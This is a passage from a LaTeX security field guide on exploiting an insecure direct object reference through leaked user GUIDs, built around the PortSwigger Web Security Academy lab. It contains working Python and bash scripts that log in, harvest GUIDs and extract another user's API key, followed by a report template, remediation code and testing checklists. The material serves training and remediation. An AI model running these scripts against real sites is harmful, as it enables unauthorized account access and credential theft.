        r'<span[^>]*id=["\']api-key["\'][^>]*>([^<]+)</span>',
        r'apiKey["\']?\s*:\s*["\']([a-zA-Z0-9-]+)["\']'
    ]
    
    for pattern in patterns:
        match = re.search(pattern, html, re.IGNORECASE)
        if match:
            return match.group(1).strip()
    
    return None


def extract_username(html: str) -> Optional[str]:
    """Extract username from account page HTML."""
    patterns = [
        r'username is:?\s*<?[^>]*>?\s*(\w+)',
        r'<strong>(\w+)</strong>',
        r'Your username:?\s*(\w+)'
    ]
    
    for pattern in patterns:
        match = re.search(pattern, html, re.IGNORECASE)
        if match:
            return match.group(1)
    
    return None


def main():
    """Main execution flow."""
    banner()
    
    parser = argparse.ArgumentParser(
        description="UID Controlled by Parameter - Unpredictable UIDs Exploit"
    )
    parser.add_argument("url", help="Target base URL")
    parser.add_argument(
        "--target", "-t",
        default="carlos",
        help="Target username to find (default: carlos)"
    )
    parser.add_argument(
        "--login-user",
        default=DEFAULT_USERNAME,
        help=f"Login username (default: {DEFAULT_USERNAME})"
    )
    parser.add_argument(
        "--login-pass",
        default=DEFAULT_PASSWORD,
        help=f"Login password (default: {DEFAULT_PASSWORD})"
    )
    parser.add_argument(
        "--no-proxy",
        action="store_true",
        help="Disable Burp proxy routing"
    )
    
    args = parser.parse_args()
    
    # Normalize URL
    base_url = args.url.rstrip('/')
    if not base_url.startswith(('http://', 'https://')):
        base_url = 'https://' + base_url
    
    print(f"[*] Target: {base_url}")
    print(f"[*] Looking for user: {args.target}")
    
    # Configure session
    session = requests.Session()
    session.verify = False
    session.headers.update({
        'User-Agent': 'GUIDExploit/2.0 (Security Testing)'
    })
    
    if args.no_proxy:
        global PROXIES
        PROXIES = {}
        print("[*] Proxy disabled")
    else:
        print(f"[*] Routing through proxy: {PROXIES['http']}")
    
    # Phase 1: Authentication
    print("\n" + "="*60)
    print("PHASE 1: Authentication")
    print("="*60)
    
    if not login(session, base_url, args.login_user, args.login_pass):
        print("[-] Login failed. Exiting.")
        sys.exit(1)
    
    # Phase 2: GUID Discovery
    print("\n" + "="*60)
    print("PHASE 2: GUID Discovery")
    print("="*60)
    
    target_guid = find_target_guid(session, base_url, args.target)
    
    if not target_guid:
        print(f"[-] Could not find GUID for {args.target}. Exiting.")
        sys.exit(1)
    
    # Phase 3: Account Access
    print("\n" + "="*60)
    print("PHASE 3: IDOR Exploitation")
    print("="*60)
    
    success, html = access_target_account(session, base_url, target_guid)
    
    if not success:
        print("[-] Failed to access target account. Exiting.")
        sys.exit(1)
    
    # Phase 4: Data Extraction
    print("\n" + "="*60)
    print("PHASE 4: Data Extraction")
    print("="*60)
    
    username = extract_username(html)
    api_key = extract_api_key(html)
    
    if username:
        print(f"[+] Username: {username}")
    
    if api_key:
        print(f"[+] API Key: {api_key}")
    else:
        print("[-] Could not extract API key")
    
    # Summary
    print("\n" + "="*60)
    print("SUMMARY")
    print("="*60)
    
    print(f"""
[+] Vulnerability Confirmed: IDOR via GUID Parameter

    Target User: {args.target}
    Discovered GUID: {target_guid}
    Extracted API Key: {api_key or 'N/A'}
    
[+] The application does not verify that the authenticated user
    has permission to access the requested GUID's data.
    """)
    
    if api_key:
        sys.exit(0)
    else:
        sys.exit(1)


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Minimal Exploitation Script}

\begin{lstlisting}[language=python,caption={Simplified single-purpose script}]
#!/usr/bin/env python3
"""Minimal GUID IDOR exploitation script."""

import sys
import re
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
GUID_PATTERN = r'[a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12}'


def get_carlos_api_key(base_url: str) -> str:
    """Exploit GUID IDOR to get carlos's API key."""
    session = requests.Session()
    session.verify = False
    
    # Step 1: Get CSRF and login
    print("[*] Logging in...")
    login_url = f"{base_url}/login"
    r = session.get(login_url, proxies=PROXIES, timeout=15)
    
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']
    
    session.post(login_url, data={
        'csrf': csrf,
        'username': 'wiener',
        'password': 'peter'
    }, proxies=PROXIES, timeout=15)
    
    print("[+] Logged in")
    
    # Step 2: Find post IDs
    print("[*] Enumerating posts...")
    r = session.get(base_url, proxies=PROXIES, timeout=15)
    post_ids = list(set(re.findall(r'postId=(\d+)', r.text)))
    print(f"[+] Found {len(post_ids)} posts")
    
    # Step 3: Find carlos's GUID
    print("[*] Searching for carlos's GUID...")
    carlos_guid = None
    
    for post_id in post_ids:
        r = session.get(f"{base_url}/post?postId={post_id}", 
                       proxies=PROXIES, timeout=15)
        
        if 'carlos' in r.text.lower():
            match = re.search(rf'userId=({GUID_PATTERN})', r.text)
            if match:
                carlos_guid = match.group(1)
                print(f"[+] Found carlos's GUID: {carlos_guid}")
                break
    
    if not carlos_guid:
        print("[-] Could not find carlos's GUID")
        return None
    
    # Step 4: Access carlos's account
    print("[*] Accessing carlos's account...")
    r = session.get(f"{base_url}/my-account?id={carlos_guid}",
                   proxies=PROXIES, timeout=15)
    
    # Step 5: Extract API key
    match = re.search(r'Your API Key is:?\s*([a-zA-Z0-9]+)', r.text)
    if match:
        api_key = match.group(1)
        print(f"[+] Carlos's API Key: {api_key}")
        return api_key
    
    print("[-] Could not extract API key")
    return None


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        sys.exit(2)
    
    url = sys.argv[1].rstrip('/')
    api_key = get_carlos_api_key(url)
    sys.exit(0 if api_key else 1)
\end{lstlisting}

\subsection{Bash GUID Harvesting Script}

\begin{lstlisting}[language=bash,caption={Bash script for GUID discovery}]
#!/bin/bash
# GUID Harvesting Script
# Usage: ./harvest_guids.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Target: $BASE_URL"
echo "[*] Harvesting GUIDs from application..."
echo ""

# GUID pattern
GUID_REGEX='[a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12}'

# Method 1: Check home page
echo "[*] Checking home page..."
curl -s "$BASE_URL" | grep -oE "$GUID_REGEX" | sort -u

# Method 2: Check all linked pages
echo ""
echo "[*] Checking linked pages..."
for path in $(curl -s "$BASE_URL" | grep -oP 'href="\K[^"]+' | head -20); do
    full_url="${BASE_URL}${path}"
    curl -s "$full_url" 2>/dev/null | grep -oE "$GUID_REGEX"
done | sort -u

# Method 3: Enumerate posts
echo ""
echo "[*] Enumerating blog posts..."
for i in $(seq 1 10); do
    curl -s "$BASE_URL/post?postId=$i" 2>/dev/null | \
        grep -oE "userId=$GUID_REGEX" | \
        sed 's/userId=/Post '$i': /'
done

echo ""
echo "[*] GUID harvesting complete"
\end{lstlisting}

% ============================================================
\section{Evidence Collection and Reporting}
% ============================================================

\subsection{Minimum Evidence Requirements}

\begin{enumerate}
  \item \textbf{Endpoint Identification}
  \begin{itemize}
    \item Screenshot showing GUID-based URL structure (\code{?id=GUID})
    \item Your own account request demonstrating the pattern
  \end{itemize}
  
  \item \textbf{GUID Leakage Evidence}
  \begin{itemize}
    \item Screenshot/request showing target's GUID exposed (blog post, author link)
    \item Source of the leak (URL, HTML source, API response)
  \end{itemize}
  
  \item \textbf{IDOR Exploitation}
  \begin{itemize}
    \item Request with your session + target's GUID
    \item Response showing target's data returned
    \item Comparison showing different user data for different GUIDs
  \end{itemize}
  
  \item \textbf{Impact Demonstration}
  \begin{itemize}
    \item Sensitive data extracted (API key, email, etc.)
    \item Scope of impact (how many users affected)
  \end{itemize}
\end{enumerate}

\subsection{Report Template}

\begin{lstlisting}[caption={Vulnerability report template}]
# Vulnerability Report: IDOR via GUID Parameter

## Executive Summary
The application's /my-account endpoint accepts a user ID (GUID) as a 
parameter without verifying the authenticated user has permission to 
access that account. User GUIDs are leaked through blog post author 
links, enabling attackers to harvest IDs and access any user's account.

## Severity Assessment
- CVSS v3.1 Base Score: 6.5 (Medium)
- Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
- Primary CWE: CWE-639 (Authorization Bypass via User-Controlled Key)
- Secondary CWE: CWE-200 (Exposure of Sensitive Information)

## Technical Details

### Vulnerable Endpoint
- URL: /my-account?id={GUID}
- Method: GET
- Authentication: Required (but insufficient)

### GUID Leakage Location
User GUIDs are exposed in blog post author links:
<a href="/author?userId=7a2b3c4d-5e6f-7890-abcd-ef1234567890">carlos</a>

### Proof of Concept

1. Login as wiener (standard user)
2. Navigate to blog posts
3. Click on author "carlos" - observe GUID in URL
4. Access /my-account?id={carlos-guid}
5. carlos's account data is returned

#### Request (with wiener's session, carlos's GUID):
GET /my-account?id=7a2b3c4d-5e6f-7890-abcd-ef1234567890 HTTP/1.1
Cookie: session=wiener_session_token

#### Response:
HTTP/1.1 200 OK
Your username is: carlos
Your API Key is: [REDACTED]

## Impact Analysis
An authenticated attacker can:
- Access any user's account page
- Extract sensitive data (API keys, personal information)
- Harvest all user GUIDs through blog post enumeration
- Potentially modify account data (if PUT/POST endpoints are also vulnerable)

## Root Cause
The server validates that:
- The user is authenticated (session cookie valid)
- The GUID format is valid

But does NOT validate:
- Whether the authenticated user owns the requested GUID
- Whether the user has permission to access that data

## Remediation Recommendations
1. Remove id parameter from /my-account - derive user from session
2. If id parameter required, verify ownership:
   if (requestedId != authenticatedUser.id) return 403;
3. Implement object-level authorization checks
4. Minimize GUID exposure in public content
5. Add regression tests for cross-user access attempts

## References
- OWASP API1:2023 Broken Object Level Authorization
- CWE-639: Authorization Bypass Through User-Controlled Key
\end{lstlisting}

% ============================================================
\section{Remediation Patterns}
% ============================================================

\subsection{Core Remediation Principles}

\begin{enumerate}
  \item \textbf{Object-level authorization}: Verify ownership/permission for every object access
  \item \textbf{Derive identity from session}: Don't accept user ID from request parameters
  \item \textbf{Minimize identifier exposure}: Don't leak GUIDs in public content
  \item \textbf{Defense in depth}: Multiple layers of authorization checks
\end{enumerate}

\subsection{Pattern 1: Remove ID Parameter (Preferred)}

\begin{lstlisting}[language=javascript,caption={Node.js: Derive user from session only}]
// VULNERABLE: Accepts id parameter
app.get('/my-account', (req, res) => {
    const userId = req.query.id;  // Attacker-controlled!
    const user = getUserById(userId);
    res.render('account', { user });
});

// SECURE: Derive from authenticated session
app.get('/my-account', requireAuth, (req, res) => {
    const userId = req.session.userId;  // Server-controlled
    const user = getUserById(userId);
    res.render('account', { user });
});
\end{lstlisting}

\subsection{Pattern 2: Ownership Verification}

\begin{lstlisting}[language=javascript,caption={Node.js: Verify ownership if ID required}]
app.get('/my-account', requireAuth, (req, res) => {
    const requestedId = req.query.id;
    const authenticatedUserId = req.session.userId;
    
    // CRITICAL: Verify ownership
    if (requestedId !== authenticatedUserId) {
        console.warn(`IDOR attempt: ${authenticatedUserId} -> ${requestedId}`);
        return res.status(403).send('Forbidden');
    }
    
    const user = getUserById(requestedId);
    res.render('account', { user });
});
\end{lstlisting}

\subsection{Pattern 3: Django Object-Level Permissions}

\begin{lstlisting}[language=python,caption={Django: Object-level authorization}]
from django.http import HttpResponseForbidden
from django.contrib.auth.decorators import login_required

@login_required
def my_account(request):
    # SECURE: Get user ID from authenticated session
    user = request.user
    return render(request, 'account.html', {'user': user})

@login_required
def view_user_profile(request, user_id):
    """If viewing others is allowed, implement proper authorization."""
    target_user = get_object_or_404(User, id=user_id)
    
    # Check if current user can view this profile
    if not can_view_profile(request.user, target_user):
        return HttpResponseForbidden("You cannot view this profile")
    
    return render(request, 'profile.html', {'user': target_user})

def can_view_profile(viewer, target):
    """Policy: Can only view own profile or if target is public."""
    if viewer.id == target.id:
        return True
    if target.profile_is_public:
        return True
    if viewer.is_admin:
        return True
    return False
\end{lstlisting}

\subsection{Pattern 4: API Authorization Middleware}

\begin{lstlisting}[language=javascript,caption={Express: Centralized authorization middleware}]
// Middleware to verify resource ownership
function verifyOwnership(paramName) {
    return (req, res, next) => {
        const requestedId = req.params[paramName] || req.query[paramName];
        const currentUserId = req.user.id;
        
        if (requestedId !== currentUserId) {
            // Log potential attack
            logger.warn('IDOR attempt', {
                attacker: currentUserId,
                targetId: requestedId,
                endpoint: req.path
            });
            
            return res.status(403).json({ 
                error: 'Access denied',
                message: 'You do not have permission to access this resource'
            });
        }
        
        next();
    };
}

// Apply to routes
app.get('/api/users/:id', requireAuth, verifyOwnership('id'), getUser);
app.get('/api/accounts/:id', requireAuth, verifyOwnership('id'), getAccount);
\end{lstlisting}

\subsection{Minimizing GUID Exposure}

\begin{lstlisting}[language=html,caption={Reducing GUID leakage in public content}]
<!-- VULNERABLE: Exposes user GUID -->
<a href="/author?userId=7a2b3c4d-5e6f-7890-abcd-ef1234567890">carlos</a>

<!-- BETTER: Use username as identifier for public pages -->
<a href="/author/carlos">carlos</a>

<!-- Server handles username -> internal ID mapping -->
app.get('/author/:username', (req, res) => {
    const user = getUserByUsername(req.params.username);
    // Return only PUBLIC profile data
    res.render('public-profile', { 
        username: user.username,
        bio: user.public_bio
        // Do NOT expose: user.id, user.email, user.api_key
    });
});
\end{lstlisting}

% ============================================================
\section{Testing Checklist}
% ============================================================

\subsection{Discovery Checklist}

\begin{itemize}[label=$\square$]
  \item Identify endpoints accepting ID/UID/GUID parameters
  \item Note your own GUID after authentication
  \item Document URL structure for account/profile pages
  \item Check for GUID format (UUID v4, custom, etc.)
\end{itemize}

\subsection{GUID Harvesting Checklist}

\begin{itemize}[label=$\square$]
  \item Search blog posts for author links with GUIDs
  \item Check user profile pages for exposed GUIDs
  \item Analyze API responses for user ID leakage
  \item Search HTML source for GUIDs in hidden fields/data attributes
  \item Check JavaScript variables for user ID data
  \item Review comment sections for author GUIDs
  \item Test search functionality for user enumeration
\end{itemize}

\subsection{Exploitation Checklist}

\begin{itemize}[label=$\square$]
  \item Authenticate as standard user
  \item Document your GUID and account access
  \item Harvest target user's GUID
  \item Replace your GUID with target's in request
  \item Verify access to target's data
  \item Extract sensitive information (API keys, etc.)
  \item Document before/after comparison
\end{itemize}

\subsection{Evidence Checklist}

\begin{itemize}[label=$\square$]
  \item Screenshot of GUID-based URL structure
  \item Request/response showing GUID leakage source
  \item Request with your session + target's GUID
  \item Response showing unauthorized data access
  \item Extracted sensitive data
  \item Burp project file saved
\end{itemize}

% ============================================================
\section{Quick Reference}
% ============================================================

\subsection{GUID Regex Patterns}

\begin{longtable}{@{}lp{9cm}@{}}
\toprule
\textbf{Format} & \textbf{Regex Pattern} \\
\midrule
Standard UUID & \code{[a-f0-9]\{8\}-[a-f0-9]\{4\}-[a-f0-9]\{4\}-[a-f0-9]\{4\}-[a-f0-9]\{12\}} \\
UUID (case-insensitive) & \code{[a-fA-F0-9]\{8\}-[a-fA-F0-9]\{4\}-...\{12\}} \\
No dashes & \code{[a-f0-9]\{32\}} \\
MongoDB ObjectId & \code{[a-f0-9]\{24\}} \\
Short ID (Base62) & \code{[a-zA-Z0-9]\{8,12\}} \\
\bottomrule
\caption{GUID/UUID regex patterns for extraction}
\end{longtable}

\subsection{Common GUID Leakage Locations}

\begin{longtable}{@{}lp{8cm}@{}}
\toprule
\textbf{Location} & \textbf{How to Check} \\
\midrule
Blog author links & Click author name, observe URL \\
User profiles & Visit any public profile page \\
API list endpoints & \code{GET /api/users}, \code{GET /api/members} \\
Search results & Search for users, check response \\
Comments & Check comment author links/metadata \\
HTML source & View source, search for GUID pattern \\
JavaScript & Check JS files for user data objects \\
Network traffic & Monitor XHR requests in DevTools \\
\bottomrule
\caption{Where to find leaked GUIDs}
\end{longtable}

% ============================================================
\section{Additional Resources}
% ============================================================

\subsection{Training Labs}

\begin{itemize}
  \item \textbf{PortSwigger Web Security Academy}: Lab ``User ID controlled by request parameter, with unpredictable user IDs''
  \item \textbf{OWASP WebGoat}: Insecure Direct Object References module
  \item \textbf{HackTheBox}: Various IDOR challenges
\end{itemize}

\subsection{References}

\begin{itemize}
  \item OWASP API Security Top 10: API1:2023 Broken Object Level Authorization
  \item CWE-639: Authorization Bypass Through User-Controlled Key
  \item OWASP Testing Guide: Testing for Insecure Direct Object References
\end{itemize}

% ============================================================
\section{Document History}
% ============================================================

\begin{table}[h]
\centering
\begin{tabular}{@{}llp{8cm}@{}}
\toprule
\textbf{Version} & \textbf{Date} & \textbf{Changes} \\
\midrule
1.0 & 2025-01-01 & Initial field guide \\
2.0 & 2026-01-21 & Comprehensive expansion: added GUID harvesting techniques, information leakage analysis, complete automation scripts, object-level authorization patterns, testing checklists \\
\bottomrule
\end{tabular}
\caption{Document revision history}
\end{table}

\end{document}
